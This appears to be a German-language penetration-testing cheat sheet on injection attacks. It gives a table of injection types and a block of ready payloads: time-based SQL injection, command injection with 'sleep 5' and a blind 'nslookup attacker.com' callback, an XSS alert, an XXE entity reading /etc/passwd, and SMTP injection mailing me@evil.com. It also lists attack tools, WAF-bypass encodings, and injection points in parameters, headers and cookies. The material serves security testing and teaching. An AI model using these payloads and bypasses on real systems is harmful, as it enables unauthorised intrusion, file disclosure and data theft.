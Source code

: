 | Typ                                | Ziel                 | Beschreibung                           |
| ---------------------------------- | -------------------- | -------------------------------------- |
| **SQL Injection**                  | Datenbanken          | Manipulation von SQL-Abfragen          |
| **Command Injection**              | Shell                | Ausführung systemweiter Befehle        |
| **LDAP Injection**                 | Directory Services   | Manipulation von LDAP-Filterausdrücken |
| **XSS** (Reflektiert, Stored, DOM) | Browser              | Einschleusen von JavaScript            |
| **XML Injection / XXE**            | XML-Parser           | Zugriff auf Files, SSRF über XML       |
| **NoSQL Injection**                | MongoDB, CouchDB     | Manipulation von JSON-Queries          |
| **SMTP Injection**                 | Mailserver           | Einschleusen von Mail-Kommandos        |
| **CRLF Injection**                 | HTTP Header          | HTTP-Response Splitting                |
| **XPath Injection**                | XML-Datenbank        | Manipulation von XPath-Ausdrücken      |
| **SSI Injection**                  | Server-Side Includes | Serverseitige Codeausführung           |
| **Host Header Injection**          | HTTP-Header          | SSRF, Reset-Links hijacken             |
| **Template Injection (SSTI)**      | Template Engines     | Server-Side Code Execution             |
| **GraphQL Injection**              | GraphQL APIs         | Query-Manipulation und introspection   |

' " ` ; ) ( < > ${} || && //


'; WAITFOR DELAY '0:0:5'--        # SQLi Time

| sleep 5                         # Command Inj.

`nslookup attacker.com`          # Blind CMD

"><script>alert(1)</script>      # XSS

# <!DOCTYPE root [<!ENTITY xxe SYSTEM "file:///etc/passwd">]>

" | mail -s pwn me@evil.com      # SMTP Inj.

| Typ          | Tool                                | Zweck                |
| ------------ | ----------------------------------- | -------------------- |
| SQLi         | `sqlmap`, `Burp`, `sqlitebrowser`   | Vollautomatisierung  |
| CMD          | `Commix`, `Burp`, `curl`            | Command Exec         |
| XSS          | `XSStrike`, `Dalfox`, `XSScrapy`    | Kontextanalyse       |
| XML / XXE    | `Burp`, `XXEinjector`, `xmlstarlet` | File Read, SSRF      |
| SSTI         | manuell / `tplmap`                  | Template-Injektion   |
| LDAP / XPath | manuell                             | Logikfehler erzeugen |
| NoSQL        | `NoSQLMap`, `Burp`                  | JSON-Manipulation    |


**Bypassing WAFs & Filters:**
| Technik              | Beispiel                          |
| -------------------- | --------------------------------- |
| URL-Encoding         | `%27` statt `'`                   |
| Doppel-Encoding      | `%2527`                           |
| Keyword-Splitting    | `SEL/**/ECT`                      |
| Case-Bypass          | `SeLeCt`                          |
| Whitespaces ersetzen | `+`, `%09`, `%0a`                 |
| Comments             | `UN/**/ION/**/SELECT`             |
| Obfuscation          | `char(97)+char(100)+char(109)...` |

| Kontext       | Beispiel-Injektion             |   |                |
| ------------- | ------------------------------ | - | -------------- |
| GET-Parameter | `/index.php?id=1' -- `         |   |                |
| POST-Body     | `username=admin' -- `          |   |                |
| JSON-API      | `{"user":"admin' -- "}`        |   |                |
| HTTP-Header   | \`User-Agent: '                |   | sleep(5) -- \` |
| Cookies       | `Cookie: session=1' or '1'='1` |   |                |
| URL-Path      | `/product/' OR 1=1--`          |   |                |


| Indikator              | Bedeutung                        |
| ---------------------- | -------------------------------- |
| SQL-Fehler             | `mysql_fetch...`, `syntax error` |
| Verzögerung            | Time-Based Blind                 |
| Ungewöhnliche Ausgaben | z. B. `uid=0(root)`              |
| Reflektierter Payload  | XSS wahrscheinlich               |
| Zugriff auf Files      | XXE, CMD                         |
| Statuscode 500/403/301 | Filterung oder WAF               |
